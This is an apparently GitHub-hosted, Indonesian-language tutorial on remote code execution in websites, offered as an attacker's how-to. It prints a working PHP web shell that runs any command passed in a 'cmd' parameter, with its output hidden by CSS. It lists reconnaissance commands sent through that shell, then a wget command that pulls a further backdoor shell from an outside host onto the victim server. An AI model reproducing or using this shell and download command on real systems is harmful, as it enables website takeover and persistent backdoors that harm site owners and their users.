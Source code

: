 ### Remote Code Execution

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" height="50" width="50">

Basic For Remote Code Execution ( Critical )

merupakan suatu teknik serangan pada website dengan cara mengeksekusi kode berbahaya dan mengambil alih kendali akses ke sistem komputer. attacker mempunyai kemampuan untuk mengeksekusi perintah di mesin target, biasanya memanfaatkan kelemahan aplikasi yang dijadikan target eksploitasi.
Remote Command Execution (RCE) atau Remote Arbitary Command Execution (ACE) adalah bug yg memungkinkan attacker untuk menjalankan command2 secara remote melalui url. Bug ini biasanya terdapat pada aplikasi yg mnggunakan cgi.

Contoh Kasus Nya Kayak Gini Lur

```
<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" border=0>
';}__halt_compiler();?></h1>
```

### Basic Rce

Misal Gua Upload File : rce.php

Request Dari php nya adalah = cmd

Cara Akses ? :
```
http://site.com/rce.php?cmd=
```

Oke Kita Jalankan Beberapa Perintah Dasar RCE
```
http://site.com/rce.php?cmd=ls
http://site.com/rce.php?cmd=whoami
http://site.com/rce.php?cmd=uname -a
http://site.com/rce.php?cmd=pwd
http://site.com/rce.php?cmd=ps aux

```

### Reverse Shell Via RCE
Kita Menggunakan Command wget 
```
http://site.com/rce.php?cmd=wget http://dyan6etar.cf/shell.txt -O namashell.php
```
Jika Sudah Kita Akses Di Dokumen Root : site.com/namashell.php

### Penjelasan Singkat
Penjelasan Singkat Tentang Command wget :

wget menurut Otak Gua : Menarik File Dari Luar Server dan Juga Membuat Di Dalam Server

Sedangkan -O Untuk Menamakan File Tersebut 

Sebagai contoh : Saya Telah Membuat Shell Dengan Ekstensi txt Dan Menguploadnya di hosting lain artinya itu diluar server , nah dengan perintah wget kita bisa menarik file itu ke dalam server cuk dan di buat filenya dengan perintah -O.

Tentu Saja Ini Bisa Di Manfaatkan Untuk Up Shell BackDoor

Oke Sekian Sayang:v
